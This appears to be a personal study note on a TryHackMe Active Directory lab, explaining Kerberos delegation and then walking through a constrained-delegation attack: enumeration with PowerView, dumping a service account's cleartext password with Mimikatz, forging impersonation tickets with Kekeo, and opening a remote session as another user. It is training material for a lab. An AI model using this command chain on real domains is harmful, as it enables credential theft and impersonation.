

# Kerberos Basics
### User
- Physical entity represented by a user account

### TGT and TGS
- In Kerberos authentication, a Ticket Granting Ticket is a user authentication token issued by the Key Distribution Centre
- TGT is used to request access tokens from the Ticket Granting Service for specific resources in the domain

### Services
- Process that is executed on a computer
- Computer acts as a host of the service
- Services are identified with a SPN
- Services are executed in the context of a domain user to acquire a TGT from the TGS
- A domain user has a list of services they can use
- Services are stored as SPNs in the `ServicePrincipalName` attribute

### Service Account
- Special account used by an application
- It can be given permissions to access the resources the applications needs

# Kerberos Delegation
- Enable an application to access resources hosted on a different servier

Example:
- Feature that allows an application/service to access resources on another server
- A user might want to access a web server that in turn needs to access to a SQL database
- Instead of allowing the web server to access the SQL database directly, the web server's service account can be delegated to the SQL database
- Web server's service account will request access to database on the behalf of that user
- User can receive access to database without providing access to web server itself

# Constrained vs Unconstrained
2 types of Kerberos Delegation:
### Unconstrained Delegation
- Least secure method
- Service is allowed to act on the behalf of the user who was authenticated against the domain by acquiring a valid TGT from client
- `userAccountControl` attribute of object is updated to `TRUSTED_FOR_DELEGATION`
- When object authenticates to the host, a TGT from Kerberos authentication is generated and cached in memory
- Host will then use this TGT as the proof of identity of the user to access other services in domain

Attacker:
- Compromise a computer or user account and get access to the TGT that was cached
- Attacker has access to other services on the domain

### Constrained Delegation
- Object `userAccountControl` attribute is updated to `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`
- `msDS-AllowedToDelegateTo` attribute is updated to SPN configured on the delegation tab  
- Compromise an AD account that has had Constrained Delegation configured
- By knowing the plaintext password or even NTLM hash of the account, we could generate a TGT for this account
- Use the TGT to execute a TGS request for any non-sensitive account to access the service as that user
- Impersonate an account with access to sensitive database

# Constrained Delegation Exploitation
- Enumerate available delegation
- Use `t2_robin.wyatt` account from [Exploiting Permission Delegation](https://github.com/CyberCJ1999/Hacking_Notes/blob/main/Active%20Directory/Exploiting%20AD/Exploiting%20Permission%20Delegation.md) section
- ssh into THMWRK1

<pre>ssh t2_robin.wyatt@10.200.63.248</pre>

- Use `Get-NetUser` cmdlet of PowerSploit for this enumeration
<pre>Import-Module C:\Tools\PowerView.ps1</pre>
<pre>Get-NetUser -TrustedToAuth</pre>

Hunting for user account that have Kerberos Constrained Delegation enabled:

Attribute `msds-allowedtodelegateto` identifies the SPNs of services the user `IIS Server` is trusted to delegate to (impersonate as other domain users) and authenticate to.

From the screenshot above, user IIS Server is allowed to authenticate to the services below on THMSERVER1 on behalf of any other domain user:

name:  
`IIS Server`  

msds-allowedtodelegateto:  
`WSMAN/THMSERVER1.za.tryhackme.loc`    
`http/THMSERVER1.za.tryhackme.loc`  

useraccountcontrol:  
`TRUSTED_TO_AUTH_FOR_DELEGATION`

# Dumping Secrets with Mimikatz
- We can see that the svcISS@za.tryhackme.loc account can delegate the HTTP and WSMAN services on THMSERVER1

"If you were to perform proper post-exploitation enumeration of THMWRK1, you would find that there is a service on the host running as the svcIIS user."  

<pre>PS C:\Users\t2_robin.wyatt> Get-CimInstance -ClassName Win32_Service | Where-Object {$_.StartName -like 'svcIIS*'} | Select-Object *</pre>

At system startup, the svcIIS account will auto-start a service that executes C:\Windows\system32.cmd.exe

- Dump LSASecrets, part of the Windows Registry Hive where credentials are stored for features such as Windows services

<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM</pre>

`token::elevate`  
Dump the secrets from registry hive, we need to impersonate SYSTEM user

`lsadump::secrets`  
Mimikatz interacts with the registry hive to pull out clear text credentials

<pre>mimikatz # lsadump::secrets</pre>

`Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@zatryhackme.loc`
`cur/text: Password1@`

We now have the password associated with svcISS account (Password1@), we can now perform Kerberos Delegation attack with the combination of Kekeo and Mimikatz.

# Request a TGT and Perform the Attack
If Mimikatz window from before is running, revert ticket:
`token::revert`

<pre>PS C:\Users\t2_robin.wyatt> C:\Tools\kekeo\x64\kekeo.exe</pre>

Generate a TGT that can be used to generate tickets for the `http` and `WSMAN` services
<pre>kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@

> Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi`</pre>

`/user` : User who has the constrained delegation permissions - svcIIS  
`/domain` : Domain we are attacking  
`/password` : Password associated with svcIIS account

We have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate.  
We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1:
<pre>kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

 > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi'
Service(s):
  [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'</pre>

  `/tgt` : Provide TGT that we generated in previous step  
  `/user` : User we want to impersonate - impersonate t1_ account  
  `/service` : Services we want to impersonate using delegation  
  - Generate TGS for the http service
  - Generate TGS for the WSMAN service  

  Run the same command as above but for the WSMAN service:
  <pre>kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc</pre>  

  We now have 2 TGS tickets, we can use Mimikatz to import them:  
  <pre>mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK</pre>

- Exit from Mimikatz

- Verify that the tickets were imported, run `klist` in command prompt

  

# Create PSSession on THMSERVER1  
<pre>
PS C:\Users\t2_robin.wyatt> New-PSSession -ComputerName thmserver1.za.tryhackme.loc

1 WinRM1          thmserver1.z... RemoteMachine   Opened        Microsoft.PowerShell     Available

PS C:\Users\t2_robin.wyatt> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc </pre>

<pre>[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami  

za\t1_trevor.jones</pre>

- We now have privileged access to THMSERVER1 as t1_ account
